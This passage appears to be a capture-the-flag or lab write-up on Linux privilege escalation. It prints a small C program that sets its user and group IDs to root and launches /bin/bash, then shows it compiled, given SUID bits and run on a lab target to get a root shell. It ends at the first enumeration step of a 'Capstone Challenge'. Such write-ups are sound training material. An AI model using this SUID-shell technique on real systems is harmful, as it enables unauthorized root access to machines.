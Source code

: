 Creat an executable that will run `/bin/bash` on the target system.

test.c file:
```c                                                   
#include<unistd.h>
#include <stdlib.h>
int main()
{ setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

compile the test.c file and set SUID bits permission.
```bash
─$ sudo su
─# nano test.c
                                                                                                       
─# gcc -static test.c -o nfs -w
                                                                                                    
─# ls -l 
total 20
-rwxr-xr-x 1 root root 16056 Jul 16 04:49 nfs
-rw-r--r-- 1 root root   113 Jul 16 04:48 test.c
                                                                                                     
─# chmod +s nfs  
─# ls -l
-rwsr-sr-x 1 root root 16056 Jul 16 04:55 nfs

```

on the target machine:
```bash
$ cd /tmp
$ ls -l 
-rwsr-sr-x 1 root root 16056 Jul 16 08:55 nfs
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
$ ./nfs
root@ip-10-10-129-69:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)

```


## Capstone Challenge

This task is to test your prvilege escalation skill. You have given an ssh access to the leonard machine, the task is to search for a privilege escalation vector.

Start with the enumeration process
```bash
[leonard@ip-10-10-232-53 ~]$ id
uid=1000(leonard) gid=1000(leonard) groups=1000(leonard) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
